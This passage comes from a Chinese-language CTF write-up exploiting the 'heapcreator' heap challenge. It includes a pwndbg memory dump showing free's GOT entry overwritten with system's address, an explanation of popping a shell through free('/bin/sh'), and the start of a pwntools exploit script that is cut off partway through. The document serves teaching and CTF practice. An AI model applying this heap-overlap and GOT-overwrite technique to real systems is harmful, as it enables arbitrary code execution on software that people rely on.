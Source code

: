 ```python
edit(1, p64(system_addr))
```

因为此时new_heap2_content_ptr即为free函数got表地址，故只需要编辑new_heap2即可

```
pwndbg> x /30gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000021   //heap0_struct
0x603010:	0x0000000000000018	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021   //heap0_content
0x603030:	0x0068732f6e69622f	0x6161616161616161
0x603040:	0x6161616161616161	0x0000000000000041   //new_heap1_content(原来的heap1_struct)
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000   //new_heap1_struct(原来的heap1_content)
0x603070:	0x0000000000000030	0x0000000000602018
0x603080:	0x0000000000000000	0x0000000000020f81
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
pwndbg> x /gx 0x0000000000602018
0x602018 <free@got.plt>:	0x00007ffff7a53380
pwndbg> x/gx 0x00007ffff7a53380
0x7ffff7a53380 <__libc_system>:	0xfa86e90b74ff8548
```

第七步:在第二步覆盖size的时候我们往heap0_content写入了/bin/sh字符串，所以此时删除heap0，free(heap0_struct_ptr+1),即free(heap0_content_ptr),即system('/bin/sh')拿到shell

##### 完整exp

参考ctf wiki：

```
# -*- coding: utf-8 -*-
from pwn import*
from LibcSearcher import *

context(os='linux',arch='amd64')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

p = process('./heapcreator')
e = ELF('./heapcreator')

def create(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size of Heap : ')
    p.sendline(str(size))
    p.recvuntil('Content of heap:')
    p.sendline(content)

def edit(idx,content):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))
    p.recvuntil('Content of heap : ')
    p.sendline(content)

def show(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
```
